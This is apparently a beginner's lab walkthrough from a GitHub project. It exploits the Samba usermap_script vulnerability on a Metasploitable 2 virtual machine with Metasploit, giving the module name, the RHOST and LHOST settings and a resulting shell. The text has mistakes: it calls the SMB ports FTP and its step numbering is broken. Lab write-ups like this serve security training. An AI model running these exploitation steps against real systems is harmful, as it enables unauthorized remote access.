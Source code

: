 1. as the nmap scan results the port 139 & 445 is open and it is ftp and we can see the version as "samba 3.x"

2. for the exact version number we can go to metasploit.

3. just type```auxiliary/scanner/smb/smb_version```

4. now set the RHOSTS as metasploitable IP

5. Now type run metasploit will spill the exact version number of samba used.

6. but is always a best practice to know that we have to secure that port from any other unauthorized users to it.

7. lets execute the port and see what it can show for us.

8. for that i am going to use metasploit.

9. to use metasploit open terminal in the "kali linux" machine.

10. now type ```msfconsole```

11. it will open metasploit for you.

12. after loading the metasploit you might see something like "ms6>"

13. now type the following
```
search samba usermap_script
```

11. it is going to give you options now select the option which has a payload of
```
exploit/multi/samba/usermap_script
```

12. now type```show options```

13. it will display the options

14. now we need to set RHOST and LHOST

15. RHOST is the IP of the metasploitable 2 which we used to scan the network paste the IP in the following command
```
set RHOST metasploitable 2 IP 
set LHOST kali linux Ip
```

16. now all the required options have been set.

17. just click 'run' or "exploit".

18. it will do its thing and the session would be found and backdoor will be created.

19. now it successfully exploited the port.

20. now you can run any command for example whoami.

21. supported images.

- ![meta smb](https://github.com/yakkalasaisumanth/Metasploitable-2-project/blob/main/images/smaba%20version%20vulenarability.png)
